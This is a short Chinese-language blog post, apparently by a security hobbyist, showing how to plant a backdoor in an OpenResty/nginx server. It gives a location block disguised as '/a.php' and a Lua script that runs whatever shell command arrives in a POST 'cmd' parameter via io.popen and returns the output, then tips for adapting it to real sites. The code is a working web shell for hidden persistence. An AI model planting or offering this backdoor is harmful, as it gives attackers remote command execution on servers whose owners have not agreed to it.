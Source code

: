 ```yaml
---
layout: post
title: Nginx Lua Backdoor  
tags: [lua文章]
categories: [topic]
---
```

在先知看到了apache利用lua留后门，就想着用nginx也试试

安装有ngx_lua模块，在openresty和tengine中是默认安装了ngx_lua模块的。

我这里拿openresty举例，你可以在这里[下载win平台](https://openresty.org/download/openresty-1.15.8.1-win64.zip)打包好的。

# 步骤

找到conf/nginx.conf，在server块中添加路由

    
    
    1
    2
    3
    4
    

|

    
    
    location = /a.php {  
        default_type 'text/plain';  
        content_by_lua_file lua/backdoor.lua;
    }  
  
---|---  
  
然后创建`lua/backdoor.lua`脚本，你也可以创建在任意位置，不过要对应上文的`content_by_lua_file`字段

    
    
    1
    2
    3
    4
    5
    6
    7
    8
    

|

    
    
    ngx.req.read_body()
    local post_args = ngx.req.get_post_args()
    local cmd = post_args["cmd"]
    if cmd then
        f_ret = io.popen(cmd)
        local ret = f_ret:read("*a")
        ngx.say(string.format("%s", ret))
    end  
  
---|---  
  
重载nginx

    
    
    1
    

|

    
    
    nginx -s reload  
  
---|---  
  
浏览器访问

![20190901174819](https://y4er.com/img/uploads/20190901174819.png)

# 文后

在实际的环境中，conf文件并不固定，你需要针对不同站点的配置文件去修改。

而location你可以更灵活一些，毕竟他能用正则表达式�，具体怎么用看你自己咯。

参考链接

  1. <https://github.com/netxfly/nginx_lua_security>
  2. <https://xz.aliyun.com/t/6088>

 **文笔垃圾，措辞轻浮，内容浅显，操作生疏。不足之处欢迎大师傅们指点和纠正，感激不尽。**